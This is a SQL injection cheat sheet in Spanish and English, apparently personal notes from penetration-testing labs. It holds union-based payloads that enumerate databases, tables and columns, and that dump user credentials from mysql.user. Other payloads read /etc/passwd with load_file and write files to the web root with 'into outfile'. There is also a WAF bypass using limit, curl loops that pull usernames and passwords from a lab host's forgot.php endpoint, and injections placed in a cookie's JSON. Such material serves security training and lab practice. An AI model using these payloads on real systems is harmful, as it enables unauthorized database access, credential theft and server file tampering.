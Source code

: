 
![[2801146.png]]

> SQLI BASED ON ERROR
##### CHECK COLUMNS
```SQL
'order by 6-- - 
```

##### CHECK EDITABLE COLUMNS
```SQL
 'union select 1,2,3,4,5,6-- -
```

##### BASIC ENUM
```SQL
' union select 1,2,database(),user(),version(),6-- -
```

##### ENUM DATABASES
```SQL
' union select 1,2,3,4,5,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -
```

##### ENUM TABLES FROM DATABASE
```SQL
' union select 1,2,table_name,4,5,6 from information_schema.tables where table_schema="warehouse"-- -
```

##### ENUM COLUMNS FROM TABLES
```SQL
' union select 1,2,column_name,4,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- -
```

##### ENUM CONTENT FROM COLUMNS
```SQL
' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -
```




> CAPACIDADES DE ESCRITURA Y LECTURA CON SQLI
##### ESCRITURA.
```sql
' union select 1,"testing",3,4,5,6 into outfile "/var/www/html/test.txt"-- -
```

##### LECTURA
```r
' union select 1,load_file("/etc/passwd"),3,4,5,6-- -
```




> WAF
##### BYPASS DEL WAF CON LIMIT
```SQL
Normal sqli --> admin@admin.com' or 1=1-- -
Problema con el output --> admin@admin.com' or 1=1 limit 0,1-- -
```


##### BUCLE CON LINUX PARA EL LIMIT ENUMERAR USUARIOS
```shell
❯ for i in $(seq 0 300); do curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' or 1=1 limit $i,1-- -" | grep "<h2>" | sed 's/<h2>//'; done | grep -v "test"
```


##### ORDER BY
```shell
#INJECCIÓN QUE NO FUNCIONA
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' order by 5-- -" | grep "<h2>" | sed 's/<h2>//'

#INJECCIÓN QUE FUNCIONA
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' order by 4-- -" | grep "<h2>" | sed 's/<h2>//'  
```


##### UNION SELECT
```shell
#INJECCIÓN FALLIDA
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,2,3,4-- -" | grep "<h2>" | sed 's/<h2>//'


#INJECCIÓN FUNCIONAL
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,2,3,\"ejemplo@ejemplo.com\"-- -" | grep "<h2>" | sed 's/<h2>//'

#OTRA INJECCIÓN FUNCIONAL
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,database(),3,\"ejemplo@ejemplo.com\"-- -" | grep "<h2>" | sed 's/<h2>//'
```

##### ENUMRAR TODAS LAS BASES DE DATOS EXISTENTES
```shell
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,group_concat(table_name),3,\"ejemplo@ejemplo.com\" from information_schema.tables where table_schema=\"supercms\"-- -" | grep "<h2>" | sed 's/<h2>//'
```


##### ENUMERAR TODAS LAS TABLAS DE UNA BASE DE DATOS
```shell
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,group_concat(table_name),3,\"ejemplo@ejemplo.com\" from information_schema.tables where table_schema=\"supercms\"-- -" | grep "<h2>" | sed 's/<h2>//'
```


##### ENUMRAR TODAS LAS COLUMNAS DE UNA TABLA
```shell
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,group_concat(column_name),3,\"ejemplo@ejemplo.com\" from information_schema.columns where table_schema=\"supercms\" and table_name=\"operators\"-- -" | grep "<h2>" | sed 's/<h2>//'
```


##### EXTRAER TODO EL CONTENIDO DE LAS COLUMNAS DESEADAS
```shell
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,group_concat(__username_,0x3a,__password_,0x3a,email),3,\"ejemplo@ejemplo.com\" from supercms.operators-- -" | grep "<h2>" | sed 's/<h2>//'
```


##### FILTRAR POR LOS QUE NO EMPIEZAN POR t
```shell
❯ curl -s -X POST "http://10.10.10.31/cmsdata/forgot.php" --data-urlencode "email=test@test.com' uNioN select 1,group_concat(__username_,0x3a,__password_,0x3a,email),3,\"ejemplo@ejemplo.com\" from supercms.operators where __username_ not like 't%'-- -" | grep "<h2>" | sed 's/<h2>//'
```




> SQLI EN COOKIE
##### COOKIE NORMAL
```JSON
{"CRAAFTKP":"1", "7DA8SKYP": "1"} 
```

##### UNION SELECT
```json
{"CRAAFTKP'UNION SELECT 1#":"1"}

{"CRAAFTKP' UNION SELECT 1,2#":"1"}
```

##### LIMIT
```json
{"CRAAFTKP' UNION SELECT 1,2,3 LIMIT 1,1#":"1"}
```

##### VERSION
```json
{"CRAAFTKP' UNION SELECT 1,version(),3 limit 1,1#":"2"}
```